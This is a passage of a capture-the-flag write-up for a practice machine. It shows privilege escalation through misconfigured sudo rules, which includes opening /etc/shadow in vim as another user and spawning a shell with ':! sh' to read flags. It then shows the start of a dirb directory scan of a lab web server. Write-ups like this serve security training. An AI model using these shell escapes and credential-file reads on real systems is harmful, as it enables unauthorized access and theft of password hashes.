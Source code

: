 
```
Grumpy@BegginerBox:~$ sudo -u Kitty cat /home/Kitty/flag.txt
```

### Vim
List user privileges for command execution with ```sudo -l```
```
User Grumpy may run the following commands on BegginerBox.infra.hf:
    (Kitty) NOPASSWD: ALL
    (Nyan) NOPASSWD: /usr/bin/python2.7 /home/Nyan/script.py
    (Kitkat) NOPASSWD: /usr/bin/vim /etc/shadow
```
Run vim as Kitkat.
```
Grumpy@BegginerBox:~$ sudo -u Kitkat /etc/alternatives/vim /etc/shadow
```
Spawn a shell in vim
```
:! sh

$ whoami
Kitkat
$ cat /home/Kitkat/flag.txt
HF-66CA132BA04D3054D65207F3142AC145
```
## Web

### Web Scan

>I want you to enumerate the content of the web server, for that you will need a web scanner. Play with them as not all tools are the same, here a few that i use on a regular basis.

>Address: Same machine as as the ping scan

```
root@kingpin:~# dirb http://172.28.5.10 /usr/share/dirb/wordlists/common.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Nov  3 19:26:52 2017
URL_BASE: http://172.28.5.10/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://172.28.5.10/ ----
==> DIRECTORY: http://172.28.5.10/backup/                                                              
==> DIRECTORY: http://172.28.5.10/flag/                                                                
+ http://172.28.5.10/index.html (CODE:200|SIZE:36)                                                     
+ http://172.28.5.10/robots.txt (CODE:200|SIZE:59)                                                     
+ http://172.28.5.10/server-status (CODE:403|SIZE:299)                                                 
==> DIRECTORY: http://172.28.5.10/test/                                                                

---- Entering directory: http://172.28.5.10/backup/ ----
```